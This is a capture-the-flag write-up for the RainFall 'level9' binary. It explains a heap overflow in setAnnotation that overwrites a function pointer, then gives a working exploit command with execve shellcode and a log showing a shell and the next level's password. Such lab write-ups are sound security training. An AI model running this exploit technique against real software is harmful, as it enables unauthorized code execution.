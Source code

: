 ```cpp=

int main(int argc, char **argv)
{
    if (argc != 2)	
		std::exit(1);
    
    N *a = new N(5);
    N *b = new N(6);
    
    a->setAnnotation(argv[1]);
    return (*a + *b);
}
```
The programming mistake that had happened there is in the function `setAnnotation`, where the program calls memcpy on an uninitialized array. we can test this by supplying a long argv. As we can see, the program segfaults.
![image](https://hackmd.io/_uploads/rytMF9xIT.png)

It overwrote the function pointer for `operator+` which is obtained by derefrencing the pointer to the N class, which is called at instruction `8048693`. After trail and error, we figured the offset is **109**
![image](https://hackmd.io/_uploads/ByjIXjlLa.png)

I tried using the env method but there is too much calculation involved, so i just hardcoded the addresses to make it jump to the buffer, which will contain another address to make it jump to the shellcode instructions.

![image](https://hackmd.io/_uploads/SJ22KnxUT.png)

As we can see, the start of the buffer is `0x0804a00c` according to memcpy. `0x0804a00c` will contain an address which points to the start of the buffer + 4, which is `0x0804a010`. The program will derefrence `0x0804a00c` to `0x0804a010`, which derefrences again to our shellcode. 

To make the program read `0x0804a00c`, we need to make sure our payload hits the **109** offset

```
./level9 `python -c "print '\x08\x04\xa0\x10'[::-1] + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'b' * 83 + '\x08\x04\xa0\x0c'[::-1]"`
```
The password is obtained `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`

```
level9@RainFall:~$ ./level9 `python -c "print '\x08\x04\xa0\x10'[::-1] + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'b' * 83 + '\x08\x04\xa0\x0c'[::-1]"`
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
$
```
